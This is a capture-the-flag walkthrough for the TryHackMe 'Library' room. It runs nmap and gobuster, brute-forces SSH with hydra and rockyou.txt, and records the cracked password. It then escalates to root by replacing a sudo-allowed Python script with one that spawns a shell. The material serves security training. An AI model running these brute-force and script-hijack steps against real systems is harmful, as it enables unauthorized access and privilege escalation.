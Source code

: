 # Library

**Room Link:** [https://tryhackme.com/room/bsidesgtlibrary](https://tryhackme.com/room/bsidesgtlibrary)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Nothing in the robots.txt except a hint to use rockyou

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

We can see a potential username

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

Since I couldn't find anything on the webpage I tried bruteforcing ssh with the name we had and rockyou.txt for passwords

**Kali**

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt $VICTIM -t4 ssh
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh meliodas@$VICTIM
Password: iloveyou1
```

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

We can run a python script with NOPASSWD. After looking at the script nothing stood out that could be exploited as is but I did have access to delete the script and put my own.

**Victim**

```
cd /home/meliodas/
ls -lah 
rm -f bak.py
```

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>echo  "import os" > bak.py
</strong>echo 'os.system("/bin/sh")' >> bak.py
sudo /usr/bin/python3 /home/meliodas/bak.py
</code></pre>

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>





